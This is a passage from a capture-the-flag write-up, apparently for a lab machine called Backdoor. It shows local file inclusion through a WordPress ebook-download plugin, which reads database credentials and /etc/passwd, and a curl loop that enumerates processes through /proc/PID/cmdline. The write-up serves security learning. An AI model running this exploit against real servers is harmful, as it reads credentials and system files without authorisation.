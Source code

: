 ```bash

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

[...]
```

Looks like we found the DB credentials. In the `/etc/passwd` file we find an existing user called `user` with a home directory.

## Process enumeration through LFI

Since we have nothing else in particular to look for, we can start enumerating processes. Remember: **_everything_ in Linux is a file**, even **active processes** (they are stored in the `/proc/` directory). Whenever we start a process through the command line, a file named `/proc/$PID/cmdline` is created. This file contains the very same command line arguments used to start that process, including the command name. This means that we can write a quick script that can enumerate processes by using their PID to find out which processes are running on this machine.

```bash
[exyss@exyss Backdoor]$ for i in {1..5000}; do curl http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/$i/cmdline; echo; done | tee pid_scan
```

The output in pid_scan should look something like this:

```bash
/proc/1/cmdline/proc/1/cmdline/proc/1/cmdline/sbin/init auto automatic-ubiquity noprompt <script>window.close()</script>
/proc/2/cmdline/proc/2/cmdline/proc/2/cmdline<script>window.close()</script>
/proc/3/cmdline/proc/3/cmdline/proc/3/cmdline<script>window.close()</script>
/proc/4/cmdline/proc/4/cmdline/proc/4/cmdline<script>window.close()</script>
/proc/5/cmdline/proc/5/cmdline/proc/5/cmdline<script>window.close()</script>
/proc/6/cmdline/proc/6/cmdline/proc/6/cmdline<script>window.close()</script>
/proc/7/cmdline/proc/7/cmdline/proc/7/cmdline<script>window.close()</script>

[...]

/proc/484/cmdline/proc/484/cmdline/proc/484/cmdline<script>window.close()</script>
/proc/485/cmdline/proc/485/cmdline/proc/485/cmdline<script>window.close()</script>
/proc/486/cmdline/proc/486/cmdline/proc/486/cmdline/lib/systemd/systemd-journald <script>window.close()</script>
/proc/487/cmdline/proc/487/cmdline/proc/487/cmdline<script>window.close()</script>
/proc/488/cmdline/proc/488/cmdline/proc/488/cmdline<script>window.close()</script>
/proc/

[...]
```

In this two snippets that I added, we can see that there are two processes running on this machine: the main root process (PID 1) and the systemd-journald process (PID 484). Of course, there are a lot more processes running, so we can clean up this file removing inactive PIDs by removing every line matching this RegEx pattern `\/proc\/\d+\/cmdline\/proc\/\d+\/cmdline\/proc\/\d+\/cmdline<script>window\.close\(\)</script>\n`.
